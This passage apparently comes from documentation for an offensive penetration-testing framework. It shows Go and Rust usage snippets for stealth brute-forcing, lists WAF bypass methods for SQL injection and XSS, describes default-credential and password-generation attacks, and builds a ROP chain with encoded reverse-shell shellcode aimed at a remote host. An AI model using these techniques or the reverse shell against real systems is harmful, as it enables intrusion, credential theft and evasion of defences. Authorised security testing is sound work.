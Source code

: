 #### Enabling Stealth

```go
cfg := config.Get()
cfg.Bruteforce.Stealth.Enabled = true
cfg.Bruteforce.Stealth.Level = 5 // Max stealth
```

### WAF Bypass Techniques

The framework includes advanced WAF bypass methods:

#### SQL Injection Bypasses
- Unicode encoding
- Comment injection
- Case variation
- HTTP Parameter Pollution (HPP)
- Time-based evasion

#### XSS Bypasses
- DOM-based payloads
- Event handler variations
- Encoding techniques
- Polyglot payloads

### Intelligent Bruteforce

The intelligent bruteforce mode includes:

1. **Technology Fingerprinting** - Identifies target technology
2. **WAF Detection** - Detects and bypasses WAF
3. **Default Credentials** - Checks known defaults
4. **Credential Generation** - Creates likely passwords
5. **Adaptive Timing** - Adjusts based on responses

### Custom Exploit Development

```rust
// Using the exploit framework
use exploit_framework::{RopChain, Shellcode, Bypass};

// Generate ROP chain
let chain = RopChain::new()
    .add_gadget(0xdeadbeef, "pop rdi; ret")
    .add_gadget(0xcafebabe, "system")
    .build();

// Generate shellcode
let shellcode = Shellcode::reverse_shell("10.0.0.1", 4444)
    .encode(Encoding::Xor)
    .avoid_badchars(&[0x00, 0x0a, 0x0d]);
```

### API Integration

